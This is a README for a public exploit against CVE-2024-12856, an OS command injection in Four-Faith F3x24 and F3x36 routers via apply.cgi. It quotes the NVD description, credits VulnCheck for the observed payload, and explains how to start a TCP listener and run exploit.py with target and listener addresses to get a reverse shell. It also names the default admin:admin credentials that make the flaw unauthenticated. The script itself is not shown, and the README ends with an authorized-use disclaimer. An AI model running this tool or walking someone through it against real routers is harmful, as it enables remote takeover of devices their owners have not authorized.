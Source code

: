 # CVE-2024-12856
This is an exploit for Four-Faith router models F3x24 and F3x36 to get a reverse shell.

"The Four-Faith router models F3x24 and F3x36 are affected by an operating system (OS) command injection vulnerability. At least firmware version 2.0 allows authenticated and remote attackers to execute arbitrary OS commands over HTTP when modifying the system time via apply.cgi. Additionally, this firmware version has default credentials which, if not changed, would effectively change this vulnerability into an unauthenticated and remote OS command execution issue."

_Source: [nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2024-12856)_

This script is based on a payload observed by [VulnCheck](https://vulncheck.com/blog/four-faith-cve-2024-12856)

## How to use
Before running the exploit start a TCP server on your machine.\
Then run
 
```python exploit.py [-u USERNAME] [-p PASSWORD] [-rport REMOTE_PORT] RHOST LHOST LPORT```

Where
-  `RHOST` is the remote IP address. You can also add a domain.
-  `LHOST` is the IP of your TCP server on your machine.
-  `LPORT` is the port of your TCP server
-  `USERNAME` and `PASSWORD` are the credentials of the router. The default is admin:admin.
-  `RPORT` is the remote port of the router. Default is 80


## Disclaimer
Make sure to use this exploit only for testing and in authorized environments.

Never use it for malicious purposes.
